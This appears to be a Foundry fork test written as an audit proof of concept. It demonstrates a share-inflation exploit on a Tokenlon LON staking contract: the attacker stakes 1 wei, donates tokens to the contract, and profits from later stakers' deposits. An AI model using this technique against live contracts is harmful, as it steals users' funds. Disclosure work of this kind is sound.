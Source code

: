 ```

contract ForkTest_tokenlon is Test {
    LONStaking public staking;
    //TestToken public token;
    Lon public lon;
    function setUp() public{
        staking = LONStaking(0x413eCcE5d56204962090eEF1deaD4c0a247e289B);
        //token = new TestToken();
        lon = Lon(0x0000000000095413afC295d19EDeb1Ad7B71c952);

    }
    function testStake() public{
        staking.initialize(address(lon),address(100),50,100);
        deal(address(10),11 ether);
        vm.prank(address(0x00738C1d1eA10b2524e2E974C5F72E8eA06E3A3D));
        //attacker
        lon.mint(address(10),11 ether);
        uint balanceBeforeExploit = lon.balanceOf(address(10));
        console2.log("balance Before Exploit :",balanceBeforeExploit);
        vm.startPrank(address(10));
        lon.approve(address(staking),11 ether);
        staking.stake(1 wei);
        lon.transfer(address(staking),10 ether);
        // console2.log("after transfer :",lon.balanceOf(address(10)));
        vm.stopPrank();
        //bob
        vm.prank(address(0x00738C1d1eA10b2524e2E974C5F72E8eA06E3A3D));
        lon.mint(address(2),10 ether);
        vm.startPrank(address(2));
        lon.approve(address(staking),10 ether);
        staking.stake(10 ether);
        vm.stopPrank();
        //alex
        vm.prank(address(0x00738C1d1eA10b2524e2E974C5F72E8eA06E3A3D));
        lon.mint(address(3),20 ether);
        vm.startPrank(address(3));
        lon.approve(address(staking),20 ether);
        staking.stake(20 ether);
        vm.stopPrank();
        //jane
        vm.prank(address(0x00738C1d1eA10b2524e2E974C5F72E8eA06E3A3D));
        lon.mint(address(4),20 ether);
        vm.startPrank(address(4));
        lon.approve(address(staking),20 ether);
        staking.stake(20 ether);
        vm.stopPrank();
        vm.startPrank(address(10));
        staking.unstake();
        staking.rageExit();
        uint balanceAfterExploit = lon.balanceOf(address(10));
        console2.log("after exploit :",balanceAfterExploit);
        console2.log("Profit : ",balanceAfterExploit-balanceBeforeExploit);
        vm.stopPrank();





    }
}


```
